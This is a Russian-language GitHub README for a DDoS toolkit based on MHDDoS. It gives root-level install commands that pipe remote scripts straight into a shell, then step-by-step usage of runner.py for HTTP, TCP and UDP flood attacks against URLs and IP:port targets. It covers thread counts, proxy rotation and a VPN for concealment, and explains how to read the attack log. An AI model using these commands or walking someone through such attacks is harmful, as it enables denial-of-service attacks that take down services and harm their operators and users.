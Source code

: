 ﻿# scripts


                                          ❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код.❗
                                  ❗Все действия вы производите на свой страх и риск.❗



Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ

                                                      ЗАПУСК СОФТА
                                        1. Более лояльный, менее агрессивный.
WINDOWS : Запускаем cmd/консоль от администратора/root (sudo su), переходим в папку cd C:\VZ
LINUX : cd $HOME/VZ

WIN LINUX: python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


Методы Атаки:

Атака на Layer 7 (HTTP(S) по URL) 
python3 runner.py https://example.com https://example1.com -t 1000 --debug

Атака на Layer 7 (HTTP по IP + PORT)
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug

Атака на Layer 4 (по UDP адресам)
ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ!!!!!!!!!
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug

Комбинированая атака
python3 runner.py tcp://192.168.2.10:53 https://example1.com 


Вывод из атаки :
PPS - количество установленных соединений с целью атаки
BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
% - когда произойдёт смена прокси в %
